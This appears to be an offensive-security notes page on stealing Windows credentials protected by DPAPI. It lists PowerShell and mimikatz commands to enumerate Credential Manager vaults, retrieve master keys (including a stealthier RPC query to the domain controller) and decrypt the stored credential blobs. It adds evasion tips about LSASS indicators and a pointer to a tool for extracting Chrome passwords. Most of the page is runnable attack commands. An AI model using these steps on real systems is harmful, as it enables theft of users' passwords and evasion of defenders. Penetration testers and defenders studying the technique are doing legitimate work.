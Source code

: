 ## Data Protection API

This is a feature in Windows used to securely store credentials and provides a cryptographically secure API for Windows programmers to use. The keys used are tired to the computer or user that the encryption is occurring under. DPAPI is used to store credentials in the Credential Manager and also to store Browser credentials.

### Credential Manager

Credentials are generally stored in the AppData folder. The existence of a string in this folder suggests there is an encrypted blob being stored.

```powershell
dir -Force C:\Users\Neo\AppData\Local\Microsoft\Credentials
```

We can use a built in command-line query to test if there's any credentials in the Credential Manager.

```powershell
vaultcmd /listcreds:"Windows Credentials" /all
vaultcmd /listcreds:"Web Credentials" /all
```

To extract them, we'll need to obtain the master encryption key using mimikatz.

```powershell
dpapi::cred /in:C:\Users\Neo\AppData\Local\Microsoft\Credentials\918E6E555E527509CD2B19FFB5E4806B
```
The output will contant a `pbData` and `guidMasterKey` field. The former is the encrypted data, the latter the GUID of the master key needed to decrypt it. Master keys are stored in `c:\Users\Neo\AppData\Roaming\Microsoft\Protect\<USER SID>`

```powershell
dir /a c:\Users\Neo\AppData\Roaming\Microsoft\Protect\S-1-5-21-3619591028-1129495842-3952564-1001
...
02/01/2022  19:58               468 13d5aadd-0f71-40c7-8785-e0b1ad0dedf3
...
```

In a high-integry session, we can use:

```powershell
# Not great OPSEC as this interacts with LSASS leaving IoCs!
sekurlsa::dpapi
```

Better OPSEC is to use a query to the Domain Controller over RPC.

```powershell
dpapi::masterkey /in:C:\Users\Neo\AppData\Roaming\Microsoft\Protect\S-1-5-21-3619591028-1129495842-3952564-1001\13d5aadd-0f71-40c7-8785-e0b1ad0dedf3 /rpc
```

This outputs a `key` field, which can be then passed to the initial encrypted credential blob identified using mimikatz.

```powershell
dpapi::cred /in:C:\Users\Neo\AppData\Local\Microsoft\Credentials\918E6E555E527509CD2B19FFB5E4806B /masterkey:4fe205785f890e3d7a52f1755a35078736eecb5ea6a23bb8619fca7cfc31ae4e6fd029e6036cde245329c635a683988e3d7a52f1755a35078736eecb5ea6a23bb8619fc
```

### Chrome Passwords

Chrome stores passowrds in a local SQLite database. If the following location has files, it's likely they can be extracted.

```powershell
dir /a "C:\Users\Neo\AppData\Local\Google\Chrome\User Data\Default"
```

This can be done using:

 https://github.com/djhohnstein/SharpChromium 